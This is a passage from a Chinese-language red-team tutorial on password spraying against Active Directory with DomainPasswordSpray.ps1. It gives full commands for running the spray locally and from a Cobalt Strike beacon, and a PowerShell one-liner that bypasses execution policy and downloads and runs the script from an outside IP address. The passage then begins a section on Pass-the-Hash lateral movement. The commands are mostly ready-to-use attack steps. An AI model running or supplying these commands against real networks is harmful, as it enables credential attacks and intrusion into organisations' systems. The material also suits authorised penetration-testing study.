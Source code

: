 必须是*域内用户*才可以

```
Userlist: 用户字典
Password:单个密码
PasswordList:密码字典
OutFile:输出的文件名
Domain:要爆破的域
Force:强制喷洒继续，而不提示确认。
```

```
Import-Module .\DomainPasswordSpray.ps1  #导入
Invoke-DomainPasswordSpray -UserList c:\users\mb\desktop\1.txt -Domain hack.com -Password admin@123 -Force -OutFile res.txt

shell powershell.exe -exec bypass -command " & {import-module C:\Users\mb\Desktop\DomainPasswordSpray.ps1;Invoke-DomainPasswordSpray -UserList C:\Users\mb\Desktop\1.txt -Domain hack.com -Password admin@123 -Force -OutFile res.txt }"
```

![image-20230308091522214](https://img.gyxnb.top/img/image-20230308091522214.png)

#### 远程执行

```
#python开启http服务
python -m http.serve 8080
```

```
shell powershell -exect bypass -c IEX (New-Object
System.Net.Webclient).DownloadString('http://118.178.70.13:8080/DomainPasswordSpray.ps1');import-module .\DomainPasswordSpray.ps1;Invoke-DomainPasswordSpray -UserList 1.txt -Domain hack.com -Password admin@123 -Force -OutFile res.txt
```

#### CS自带命令

```
beacon> powershell-import powershell\DomainPasswordSpray.ps1
beacon> Invoke-DomainPasswordSpray -UserList c:\users\mb\desktop\1.txt -Domain hack.com -Password admin@123 -Force -OutFile c:\users\mb\desktop\res.txt
```

![image-20230308090518266](https://img.gyxnb.top/img/image-20230308090518266.png)

# Pass the Hash哈希传递攻(PTH)横向移动

## 哈希传递

大多数渗透测试人员都听说过哈希传递(Pass The Hash)攻击。该方法通过找到与账户相关的密码散列值(通常是
NTLM Hash)来进行攻击。
